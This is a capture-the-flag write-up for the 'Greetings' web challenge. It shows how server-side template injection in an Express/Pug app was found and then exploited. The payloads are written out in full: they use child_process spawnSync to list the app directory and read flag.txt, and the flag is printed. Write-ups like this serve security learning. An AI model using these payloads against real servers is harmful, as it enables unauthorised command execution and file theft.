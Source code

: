 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I decide to enter my username as "a", which results in:

![](../images/greetings-part-3.png)

I then glanced at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

Wondering what would happen if I deleted the `?username` field from the URL, I changed the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which resulted in:

![](../images/greetings-part-4.png)

I then open Burpsuite. While browsing through the requests and responses, one of the responses cataches my eye:

![](../images/greetings-part-5.png)

Express is a framework for Node, which is written in Javascript. Due to this, I now have many Javascript exploits to choose from. I decide to use a Javascript SSTI first, so I enter:

![](../images/greetings-part-6.png)

Now, if the website gives me an error after executing this, it is vulnerable to SSTI (as this sends a broken template to the server. If the server doesn't process templates from the user, it wouldn't give an error). I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking at the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server, as the `/app/` directory contains the subdirectory of `/node_modules/`. So, I type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) to be able to create subprocesses (`.require('child_process')`). Then, a new processes is created by the server, executing the shellcode of `ls /usr/src/app/` (`.spawnSync('ls', ['/usr/src/app/'])), with the standard output of the command enabled (`.stdout`). I then execute the command, which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

This command is very similar to my previous command, but instead of listing all the files in the `/usr/src/app/` directory, it uses the `cat` comamnd to output the contents of `flag.txt`. I then execute the command, which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










